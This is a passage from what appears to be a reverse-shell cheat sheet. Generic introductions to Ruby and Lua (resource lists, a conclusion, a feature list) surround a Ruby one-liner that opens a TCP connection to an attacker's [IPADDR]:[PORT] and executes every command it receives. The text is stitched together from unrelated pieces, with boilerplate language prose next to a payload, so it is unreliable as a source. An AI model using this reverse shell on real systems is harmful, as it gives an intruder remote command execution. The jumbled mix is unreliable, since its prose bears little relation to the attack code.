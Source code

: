 ### Resources

There are many resources available for learning Ruby and improving your skills. Here are some recommended resources:

- [Ruby Documentation](https://ruby-doc.org/): The official documentation for Ruby, which provides detailed information about the language and its standard library.

- [RubyGems](https://rubygems.org/): A package manager for Ruby that allows you to easily install and manage libraries and frameworks.

- [Ruby Toolbox](https://www.ruby-toolbox.com/): A website that provides a curated list of Ruby libraries and tools, categorized by functionality.

- [Ruby on Rails](https://rubyonrails.org/): A popular web application framework built with Ruby. It provides a set of conventions and tools for building robust and scalable web applications.

- [RubyMine](https://www.jetbrains.com/ruby/): An integrated development environment (IDE) specifically designed for Ruby development. It offers advanced features such as code completion, debugging, and refactoring tools.

### Conclusion

Ruby is a powerful and expressive programming language that offers a wide range of features and a clean syntax. Whether you are a beginner or an experienced developer, learning Ruby can greatly enhance your programming skills and productivity.
```bash
#Windows
ruby -rsocket -e 'c=TCPSocket.new("[IPADDR]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
### Introduction

Lua is a lightweight, high-level programming language designed primarily for embedded systems and scripting. It is often used as a scripting language in video games and other applications that require customizable behavior. Lua is known for its simplicity, efficiency, and ease of integration with other languages.

### Features

- **Lightweight**: Lua has a small footprint and minimal resource requirements, making it suitable for use in resource-constrained environments.
- **High-level**: Lua provides a simple and expressive syntax that is easy to read and write.
- **Embeddable**: Lua can be easily embedded into other applications, allowing developers to extend the functionality of their software.
- **Dynamic typing**: Lua uses dynamic typing, which means that variables do not have a fixed type and can be assigned values of different types at runtime.
- **Garbage collection**: Lua has automatic memory management through garbage collection, which helps developers avoid memory leaks and other memory-related issues.
- **Extensibility**: Lua can be extended with C/C++ code, allowing developers to leverage existing libraries and functionality.
- **Portability**: Lua is written in ANSI C and can be compiled and run on a wide range of platforms, including Windows, macOS, Linux, and various embedded systems.
